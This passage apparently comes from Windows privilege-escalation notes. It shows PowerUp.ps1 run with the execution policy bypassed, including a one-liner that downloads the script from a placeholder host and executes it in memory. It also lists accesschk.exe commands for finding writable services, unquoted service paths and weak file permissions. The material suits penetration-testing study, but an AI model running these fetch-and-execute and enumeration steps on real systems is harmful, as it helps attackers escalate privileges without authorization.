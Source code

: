 The script can be executed in multiple ways
1. Save on disk, and execute
``` powershell
powershell -ep bypass -c "& { Import-Module .\PowerUp.ps1; Invoke-AllChecks; }"
```

2. Execute from memory

Modify the script to contain `Invoke-AllChecks` at the bottom of the script

``` powershell
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1')"
```

## Hacking the Services

### Checking Access using Accesschk.exe

Below should give you an idea of some of the useful flags
``` powershell
# .\accesschk.exe /accepteula
# -c : Name a windows service, or use * for all
# -d : Only process directories
# -k : Name a registry key e.g., hklm/software
# -q : Omit banner
# -s : Recurse
# -u : Suppress errors
# -v : Verbose
# -w : Show objects with write access
```

Checking service permissions
> ALWAYS RUN THE FOLLOWING TO CHECK IF YOU'VE PERMISSIONS TO START AND STOP THE SERVICE
``` powershell
.\accesschk.exe /accepteula -ucqv <user> <svc_name>
```

Get all writable services as per groups
``` powershell
.\accesschk.exe /accepteual -uwcqv Users *
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

Check unquoted service paths by testing if directories are writable
``` powershell
.\accesschk.exe /accepteula -uwdv "C:\Program Files"
```

Check user permissions on an executable
``` powershell
.\accesschk.exe /accepteula -uqv "C:\Program Files\abcd\file.exe"
```

Find all weak permissions
<br>
Folders
